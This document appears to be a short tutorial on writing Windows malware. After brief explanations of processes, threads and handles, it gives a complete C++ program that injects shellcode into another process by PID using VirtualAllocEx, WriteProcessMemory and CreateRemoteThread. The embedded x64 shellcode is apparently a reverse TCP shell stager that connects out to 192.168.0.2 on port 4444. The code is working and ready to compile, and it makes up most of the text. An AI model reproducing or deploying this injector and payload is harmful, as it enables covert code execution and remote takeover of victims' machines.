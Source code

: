 # Writing Malware in Windows

## 1. Introduction

To write malware in windows you will need some basic knowledge of Processes, Threads and Handle.

### 1.1 Process
**A Process** is a isolated memory structure which supports an Application in the OS.
A Windows Process is executed by 1 or more **Threads**.

The OS, more specifically the **Scheduler** decides how much CPU time to allocate for each process.
That is controlled by the **Priority** of the process.

### 1.2 Thread
**A Thread** is a stream of sequential machine-code instructions that a process executes.
Threads are a component of a Process and access the same memory when they are in the same Process.
Processes may speed up its operation by using multiple threads, each performing an isolated task by running their
instructions through a different CPU Execution Unit.

### 1.3 Handle
**A Handle** is a kind of identifier for Processes/Threads. With the handle you can
perform different kind of actions like killing the Process or Reading and Writing in foreign Process memory.

Handles are consistent over the whole Operating System, so you can share Handles over different processes.

## 2. Shellcode Injection

In the shellcode Injection we want to inject machine-code into the Process.
It is important that we use the right shellcode for the injection.
For 64-bit Windows Systems, we have to use x64 machine-code.

```cpp
#include <iostream>
#include <windows.h>

// Define the variables for later use.
DWORD pid;
HANDLE hThread, hProcess;
LPVOID rBuffer;


// This is the shellcode we are injecting
const char shellcode[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
"\x52\x48\x31\xd2\x51\x56\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x4d\x31\xc9\x48\x0f"
"\xb7\x4a\x4a\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f"
"\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0"
"\x74\x67\x48\x01\xd0\x8b\x48\x18\x44\x8b\x40\x20\x50\x49"
"\x01\xd0\xe3\x56\x4d\x31\xc9\x48\xff\xc9\x41\x8b\x34\x88"
"\x48\x01\xd6\x48\x31\xc0\x41\xc1\xc9\x0d\xac\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8"
"\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41"
"\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83"
"\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9"
"\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00"
"\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49"
"\x89\xe5\x49\xbc\x02\x00\x11\x5c\xc0\xa8\x00\x02\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5"
"\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b"
"\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31"
"\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41"
"\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58"
"\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5"
"\x85\xc0\x74\x0c\x49\xff\xce\x75\xe5\x68\xf0\xb5\xa2\x56"
"\xff\xd5\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04"
"\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x48"
"\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00"
"\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53"
"\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89"
"\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff"
"\xd5\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xe1\x41\xff"
"\xe7";


// Main function that executes first.
int main(int argc, char** argv)
{
	if (argc < 2) {
		std::cerr << "(-) No process specified" << std::endl;
		std::cerr << "Excpected: program.exe <pid>" << std::endl;
		return EXIT_FAILURE;
	}

	pid = std::strtol(argv[1], NULL, 10);

	std::cout << "(+) Attempting to get handle" << std::endl;
	
	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
	if (!hProcess) {
		std::cerr << "(-) Could not open process, error: " << GetLastError() << std::endl;
		return EXIT_FAILURE;
	}

	std::cout << "(+) Got Proccess Handle, yay" << std::endl;

	rBuffer = VirtualAllocEx(
		hProcess,
		NULL,
		sizeof(shellcode),
		MEM_COMMIT | MEM_RESERVE,
		PAGE_EXECUTE_READWRITE
	);

	std::cout << rBuffer << std::endl;

	std::cout << "(+) Allocated " << sizeof(shellcode) << " bytes of virtual memory with PAGE_EXECUTE_READWRITE Permissions" << std::endl;
	std::cout << "(+) Writing payload into process" << std::endl;
	WriteProcessMemory(hProcess, rBuffer, shellcode, sizeof(shellcode), NULL);

	hThread = CreateRemoteThread(
		hProcess,
		NULL,
		0,
		(LPTHREAD_START_ROUTINE)rBuffer,
		NULL,
		0,
		NULL
	);

	if (!hThread) {
		std::cerr << "Failed to get handle to the thread, error: " << GetLastError() << std::endl;
		CloseHandle(hProcess);
		return EXIT_FAILURE;
	}

	std::cout << "Got the handle thread: " << hThread << std::endl;
	WaitForSingleObject(hThread, INFINITE);

	CloseHandle(hThread);
	CloseHandle(hProcess);

	return EXIT_SUCCESS;
}
```

